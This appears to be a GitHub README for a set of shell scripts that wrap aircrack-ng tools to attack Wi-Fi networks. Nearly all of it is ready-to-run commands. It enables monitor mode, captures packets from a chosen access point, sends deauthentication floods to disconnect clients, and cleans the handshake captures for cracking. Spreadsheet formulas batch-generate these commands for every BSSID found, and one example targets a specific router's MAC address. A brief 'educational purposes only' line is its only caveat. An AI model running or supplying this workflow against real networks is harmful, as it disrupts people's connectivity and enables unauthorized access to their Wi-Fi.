 # Wi-Fi Toolkit

This repository contains a collection of shell scripts for performing various Wi-Fi related tasks.

## Requirements:

- Linux operating system
- airodump-ng and aireplay-ng tools (usually part of the aircrack-ng suite)
- Python 3

## Usage:

### Install
```bash
wget https://raw.githubusercontent.com/gznll/shell/main/wifi/{wifi_dump.sh,python_server.sh,death_wifi.sh}
```
### Check in
#### 
```bash
iwconfig
```
### Get AP list
#### Kill services
```bash
airmon-ng check kill
```
#### wlan0 to monitor mode and get AP list in out-01.csv
```bash
airodump-ng wlan0 -w out
```
#### Basic commands
```bash
airodump-ng --bssid 11:22:33:44:55:66 --channel 2 wlan0 -w output
aireplay-ng --deauth 10 -a 11:22:33:44:55:66 wlan0 	
wpaclean out.cap in.cap
```
#### Use in xls:

#### replace in text mode out-01.csv  [' ' > '' and ','>';']
#### Insert formula in Cell:

```sh
x	dump	death	clean
=VLOOKUP(A3,F:F,1,FALSE)	=CONCATENATE("airodump-ng --bssid ",A3," "," --channel ",D3," "," wlan0 -w ",N3)	=CONCATENATE("aireplay-ng --deauth 10 -a ",A3," ","wlan0")	=CONCATENATE("watch -n 1 wpaclean clean_",N3,".cap ",N3,"-01.cap")
```
```sh
x	dump	death	clean	sh
=ВПР(A3;F:F;1;ЛОЖЬ) 	=СЦЕПИТЬ("airodump-ng --bssid ";A3;" ";" --channel ";D3;" ";" wlan0 -w ";N3) 	=СЦЕПИТЬ("aireplay-ng --deauth 10 -a ";A3;" ";"wlan0") 	=СЦЕПИТЬ("watch -n 1 wpaclean clean_";N3;".cap ";N3;"-01.cap")	echo airodump-ng --bssid A8:63:7D:1A:67:E3  --channel 1  wlan0 -w MTSRouter_67E1 > 1.sh && echo aireplay-ng --deauth 10 -a A8:63:7D:1A:67:E3 wlan0 > 2.sh && echo watch -n 1 wpaclean clean_MTSRouter_67E1.cap MTSRouter_67E1-01.cap > 3.sh && chmod +x *.sh

```

### Wi-Fi Dumping (wifi_dump.sh)

This script uses airodump-ng to capture Wi-Fi packets from a specific Access Point (AP).

#### Syntax:

```bash
./wifi_dump.sh MAC_ADDRESS CHANNEL [OUTPUT_FILE]
```
Arguments:
    MAC_ADDRESS: The MAC address of the target AP.
    CHANNEL: The channel the AP is operating on.
    OUTPUT_FILE: (Optional) The filename for the output capture file. Defaults to dump.cap.
    
```bash
./wifi_dump.sh 00:11:22:33:44:55 11 dump.cap
```
This will capture Wi-Fi packets from the AP with MAC address 00:11:22:33:44:55 on channel 11 and save them to dump.cap.

## Wi-Fi Deauth Attack (death_wifi.sh)
This script uses aireplay-ng to perform a deauthentication attack against a specific client connected to an AP.
#### Syntax:
```bash
./death_wifi.sh DEAUTH_COUNT MAC_ADDRESS [INTERFACE wlan0]
```
Arguments:
    DEAUTH_COUNT: The number of deauthentication packets to send.
    MAC_ADDRESS: The MAC address of the target client.
    INTERFACE: (Optional) The network interface to use. Defaults to wlan0.
```bash
./death_wifi.sh 10 00:11:22:33:44:55 wlan0
```
This will send 10 deauthentication packets to the client with MAC address 00:11:22:33:44:55 using the wlan0 interface.

Note: This script is intended for educational purposes only. Using it for malicious purposes is illegal and unethical.

## Python HTTP Server (python_server.sh)
This script starts a simple Python HTTP server on a specified port.
#### Syntax:
```bash
./python_server.sh [PORT 8000]
```
Arguments:

    PORT: (Optional) The port to listen on. Defaults to 8000.
```bash
./python_server.sh 8080
```
This will start the server on port 8080.

Note: Ensure that the current directory contains the files you want to serve.

## Disclaimer:

These scripts are provided "as is" without warranty of any kind. Use them at your own risk.


